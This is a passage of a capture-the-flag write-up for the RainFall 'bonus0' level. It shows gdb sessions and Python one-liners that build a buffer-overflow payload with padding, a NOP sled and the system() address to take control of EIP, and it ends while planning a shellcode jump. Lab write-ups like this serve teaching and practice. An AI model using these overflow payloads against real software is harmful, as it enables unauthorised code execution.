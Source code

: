 
Lets try and give him the system() function.

```sh
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system
(gdb)

bonus0@RainFall:~$ python -c "print 'A' * 20 + '\n' + 'B' * 20 + '\x90' * 4069 + '\x60\xb0\xe6\xb7'" > /tmp/payload
bonus0@RainFall:~$ gdb ./bonus0 -q
Reading symbols from /home/user/bonus0/bonus0...(no debugging symbols found)...done.
(gdb) run < /tmp/payload
Starting program: /home/user/bonus0/bonus0 < /tmp/payload
 - 
 - 
AAAAAAAAAAAAAAAAAAAA��������������`�� ��������������`��

Program received signal SIGSEGV, Segmentation fault.
0x00b7e6b0 in ?? ()

```

Our address contain an offset, we can fix it by adding an A next to it :


```sh
bonus0@RainFall:~$ python -c "print 'A' * 20 + '\n' + 'B' * 20 + '\x90' * 4069 + '\x60\xb0\xe6\xb7\x41'" > /tmp/payload
bonus0@RainFall:~$ gdb ./bonus0 -q
Reading symbols from /home/user/bonus0/bonus0...(no debugging symbols found)...done.
(gdb) run < /tmp/payload
Starting program: /home/user/bonus0/bonus0 < /tmp/payload
 - 
 - 
AAAAAAAAAAAAAAAAAAAA��������������`��A ��������������`��A
sh: 1: ����: not found

Program received signal SIGSEGV, Segmentation fault.
0x00000041 in ?? ()
```

And it did executed system(), but we dont have space to add an argument.

So we are going to change our approache and insert a shellcode, since we control the EIP we can make it point to a shellcode, lets try this.

We are going to place our shellcode into av[1], and give the start of av[1] to the EIP.

In order to achieve that we are going to overwrite the return address of main with the address of av[1].

```sh
(gdb) disas main
  (...)
   0x080485cb <+39>:	ret    
End of assembler dump.
```
